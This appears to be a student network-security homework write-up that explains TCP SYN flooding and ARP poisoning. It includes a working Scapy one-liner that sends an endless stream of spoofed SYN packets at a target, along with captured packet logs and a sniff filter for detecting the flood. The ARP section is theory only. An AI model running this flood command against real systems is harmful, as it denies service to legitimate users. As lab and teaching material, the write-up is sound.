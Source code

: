 # MIE-SIB. Homework #1. 

### 1, TCP/SYN Packet (TCP/SYN Flood)

###### Theoretical overview

A **SYN flood** is a form of denial-of-service attack in which an attacker sends a succession of SYN requests to a target's system in an attempt to consume enough server resources to make the system unresponsive to legitimate traffic.

Normally when a client attempts to start a TCP connection to a server, the client and server exchange a series of messages which normally runs like this:

1. The client requests a connection by sending a SYN (synchronize) message to the server.
2. The server acknowledges this request by sending SYN-ACK back to the client.
3. The client responds with an ACK, and the connection is established.

This is called the **TCP three-way handshake**, and is the foundation for every connection established using the TCP protocol.

![Normal work](http://upload.wikimedia.org/wikipedia/commons/thumb/9/9a/Tcp_normal.svg/220px-Tcp_normal.svg.png)

A **SYN flood attack** works by not responding to the server with the expected ACK code. The malicious client can either simply not send the expected ACK, or by spoofing the source IP address in the SYN, causing the server to send the SYN-ACK to a falsified IP address - which will not send an ACK because it "knows" that it never sent a SYN.

The server will wait for the acknowledgement for some time, as simple network congestion could also be the cause of the missing ACK, but in an attack increasingly large numbers of half-open connections will bind resources on the server until no new connections can be made, resulting in a denial of service to legitimate traffic. Some systems may also malfunction badly or even crash if other operating system functions are starved of resources in this way.

![SYN Flood](http://upload.wikimedia.org/wikipedia/commons/thumb/9/94/Tcp_synflood.png/220px-Tcp_synflood.png)


###### Using Scapy for performing attacks.

	send(IP(src=RandIP('10.0.0.0/8'), dst='172.16.16.16')/TCP(sport=RandShort(), dport=80), loop=1) 

Scapy generates TCP SYN packets at a constant rate to the victim with address 172.16.16.16 on port 80, sourced from random spoofed addresses within the allowed management network (10.0.0.0/8). Appending the loop=1 parameter to scapy's send() command instructs it to regenerate and retransmit the packet at a constant rate indefinitely. 

On the victim router, we can see that the TCP connection queue is immediately exhausted: 

	02:15:49.007776 IP 10.183.157.9.35319 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.008966 IP 10.143.122.81.61439 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.010057 IP 10.23.145.69.45972 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.011082 IP 10.36.20.15.23697 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.012211 IP 10.237.52.92.34983 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.013442 IP 10.37.190.76.20831 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.014706 IP 10.36.141.23.4999 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.015997 IP 10.200.164.146.33124 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.017994 IP 10.131.175.162.38615 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.019118 IP 10.46.64.11.48947 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.020234 IP 10.133.81.101.52032 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.021436 IP 10.253.244.76.18717 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.022464 IP 10.66.75.205.27219 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.023491 IP 10.202.188.247.11763 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.024614 IP 10.82.193.102.54673 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.025861 IP 10.150.235.34.29320 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.027553 IP 10.231.145.11.58377 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.029261 IP 10.145.105.136.60844 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	
###### Using Scapy for monitoring attacks.

We can easily capture **tcp** packets with **"S" flag**:

	a= sniff(filter="tcp[tcpflags] & (tcp-syn) != 0")
	a.nsummary()

Displayed information:
	
	0000 Ether / IP / TCP 10.86.233.36:25701 > 172.16.16.16:www S
	0001 Ether / IP / TCP 10.155.28.58:56047 > 172.16.16.16:www S
	0002 Ether / IP / TCP 10.79.88.202:60566 > 172.16.16.16:www S
	0003 Ether / IP / TCP 10.95.55.197:64929 > 172.16.16.16:www S
	0004 Ether / IP / TCP 10.177.194.62:1856 > 172.16.16.16:www S
	0005 Ether / IP / TCP 10.236.101.170:21069 > 172.16.16.16:www S
	0006 Ether / IP / TCP 10.236.110.58:16205 > 172.16.16.16:www S
	0007 Ether / IP / TCP 10.40.112.40:63280 > 172.16.16.16:www S
	0008 Ether / IP / TCP 10.216.122.157:16823 > 172.16.16.16:www S
	0009 Ether / IP / TCP 10.66.169.3:60749 > 172.16.16.16:www S
	0010 Ether / IP / TCP 10.61.157.51:48726 > 172.16.16.16:www S
	0011 Ether / IP / TCP 10.73.11.92:55115 > 172.16.16.16:www S
	0012 Ether / IP / TCP 10.115.49.253:23161 > 172.16.16.16:www S

### 2, ARP Poisoning.

###### Theoretical overview

**ARP (address resolution protocol)** operates by broadcasting a message across a network, to determine the Layer 2 address (MAC address) of a host with a predefined Layer 3 address (IP address). The host at the destination IP address sends a reply packet containing its MAC address. Once the initial ARP transaction is complete, the originating device then caches the ARP response, which is used within the Layer 2 header of packets that are sent to a specified IP address.

![Normal work](http://hakipedia.com/images/MitM.png)

An **ARP Spoofing attack** is the egression of unsolicited ARP messages. These ARP messages contain the IP address of a network resource, such as the default gateway, or a DNS server, and replaces the MAC address for the corresponding network resource with its own MAC address. Network devices, by design, overwrite any existing ARP information in conjunction with the IP address, with the new, counterfeit ARP information. The attacker then takes the role of man in the middle; any traffic destined for the legitimate resource is sent through the attacking system. As this attack occurs on the lower levels of the OSI model, the end-user is oblivious to the attack occurrence.

**ARP Poisoning** is also capable of executing Denial of Service (DoS) attacks. The attacking system, instead of posing as a gateway and performing a man in the middle attack, can instead simply drop the packets, causing the clients to be denied service to the attacked network resource. The spoofing of ARP messages is the tributary principal of ARP Poisoning.

